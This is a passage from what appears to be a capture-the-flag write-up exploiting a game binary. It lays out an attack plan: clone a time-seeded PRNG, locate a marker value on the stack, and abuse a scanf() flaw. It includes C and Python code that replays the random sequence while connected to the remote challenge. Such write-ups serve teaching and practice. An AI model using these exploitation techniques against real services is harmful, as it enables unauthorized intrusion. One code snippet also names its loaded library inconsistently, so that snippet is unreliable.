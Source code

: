 Knowing the PRNG, this seems doable.

### 0x2.6 Analysis Summary

Putting it all together, we worked out a rough structure for the exploit:

1. Win the game by replicating the random number sequence.
2. Order a steak. This places a signal value `0xdeadbeef` into memory.
3. Use the oracle to locate the address of the signal value, which is placed on the safe part of the stack.
4. After ordering the steak, the `order_filled` flag enables write access. We then use the `scanf()` vulnerability to (likely) locate the unsafe part of the stack. At this point, we have a rough plan and can begin the actual exploitation.

We visualize the program flow in [Appendix 0xa.3](#0xa3-challenge-program-flow).

---

## 0x3. First Steps

### 0x3.1 Cloning the RNG Stream

There are several ways to replicate the pseudo-random number stream. In our case, we chose to create a simple shared library in C, `rand_replay.c`:

```c
#include <stdlib.h>
#include <time.h>

void init() {
	srand(time(NULL));
}

int getValue()
{
	return rand() % 10 + 2;
}
```

Compile it using:

```bash
gcc -shared -fPIC -o rand_replay.so rand_replay.c
```


This replicates the `get_card()` method from the challenge. The library can be imported into Python using `ctypes` in a single line:

```python
help = CDLL("./rand_replay.so")
```

So we begin our exploit by establishing a connection and immediately generating 1,000 numbers from the PRNG:

```python
p = remote(host,port,sock=s)

rand_sequence = [] # We immediately replay the sequence on our side.
start = time.time()
rand_replay.init()
for i in range(1000):
    rand_sequence.append(rand_replay.getValue())
end = time.time()
```
